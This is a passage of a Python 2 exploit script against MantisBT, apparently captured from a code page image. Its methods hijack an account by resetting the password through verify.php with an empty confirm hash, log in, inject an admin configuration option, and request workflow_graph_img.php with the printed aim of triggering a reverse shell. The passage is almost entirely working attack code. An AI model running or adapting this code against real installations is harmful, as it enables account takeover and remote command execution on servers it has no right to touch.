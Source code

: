         def reset_login(self):
            # Request # 1: Grab the account update token
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/verify.php?id=' + self.verify_user_id + '&confirm_hash='
            r = self.s.get(url=url, headers=self.headers)
            if r.status_code == 404:
                print "ERROR: Unable to access password reset page"
                exit()

            account_update_token = r.text.split('name="account_update_token" value=')[1].split('"')[1]

            # Request # 2: Reset the account password
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/account_update.php'
            data = "account_update_token=" + account_update_token + "&password=" + self.passwd + "&verify_user_id=" + self.verify_user_id + "&realname=" + self.realname + "&password_confirm=" + self.passwd
            self.headers.update({'Content-Type': 'application/x-www-form-urlencoded'})
            r = self.s.post(url=url, headers=self.headers, data=data)

            if r.status_code == 200:
                print "Successfully hijacked account!"

        def login(self):
            data = "return=index.php&username=" + self.realname + "&password=" + self.passwd + "&secure_session=on"
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/login.php'

            r = self.s.post(url=url, headers=self.headers, data=data)
            if "login_page.php" not in r.url:
                print "Successfully logged in!"

        def CreateConfigOption(self, option, value):
            # Get adm_config_set_token
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/adm_config_report.php'
            r = self.s.get(url=url, headers=self.headers)

            adm_config_set_token = r.text.split('name="adm_config_set_token" value=')[1].split('"')[1]

            # Create config
            data = "adm_config_set_token=" + adm_config_set_token + "&user_id=0&original_user_id=0&project_id=0&original_project_id=0&config_option=" + option + "&original_config_option=&type=0&value=" + quote_plus(
                value) + "&action=create&config_set=Create+Configuration+Option"
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/adm_config_set.php'
            r = self.s.post(url=url, headers=self.headers, data=data)

        def TriggerExploit(self):
            print "Triggering reverse shell"

            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/workflow_graph_img.php'
            try:
                r = self.s.get(url=url, headers=self.headers, timeout=3)
            except:
                pass
